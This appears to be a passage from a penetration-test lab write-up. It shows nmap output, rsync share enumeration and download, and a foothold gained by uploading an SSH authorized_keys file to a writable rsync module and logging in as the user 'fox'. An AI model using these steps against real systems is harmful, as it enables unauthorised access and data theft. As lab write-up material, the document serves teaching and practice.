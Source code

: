 ```bash
OS:0%Q=)T2(R=N)T3(R=N)T4(R=N)T5(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)
OS:T6(R=N)T7(R=N)U1(R=Y%DF=N%T=40%IPL=164%UN=0%RIPL=G%RID=G%RIPCK=G%RUCK=G%
OS:RUD=G)IE(R=Y%DFI=N%T=40%CD=S)

Network Distance: 2 hops

OS detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Fri Aug 13 11:27:08 2021 -- 1 IP address (1 host up) scanned in 15.45 seconds
```

## Enumeration
The service enumeration portion of a penetration test focuses on gathering information about what services are alive on a system or systems. This is valuable for an attacker as it provides detailed information on potential attack vectors into a system. Understanding what applications are running on the system gives an attacker needed information before performing the actual penetration test. In some cases, some ports may not be listed.

### SSH
```bash
# replace scan results
```

### Rsync
```bash
sudo nmap $TARGET -p873 --script rsync-list-modules
rsync -v rsync://192.168.75.126/ --list-only
rsync -v rsync://192.168.75.126/$SHARE --list-only
rsync -v rsync://192.168.75.126/$SHARE loot/$SHARE
```
## Gaining Access
The penetration testing portions of the assessment focus heavily on gaining access to a variety of systems. During this penetration test, Victor was able to successfully gain access to 10 out of the 50 systems.

```bash
ssh-keygen
mkdir .ssh
cp ~/.ssh/id_rsa.pub .ssh/authorized_keys
```

```bash
# -a = ???
# -v = verbose
# --relative = necessary to upload the entire .ssh directory
# .ssh = source directory
# fox/ = destination directory
rsync -av --relative .ssh rsync://192.168.216.126/fox/
sudo ssh -i ~/.ssh/id_rsa fox@192.168.225.126
bash
```
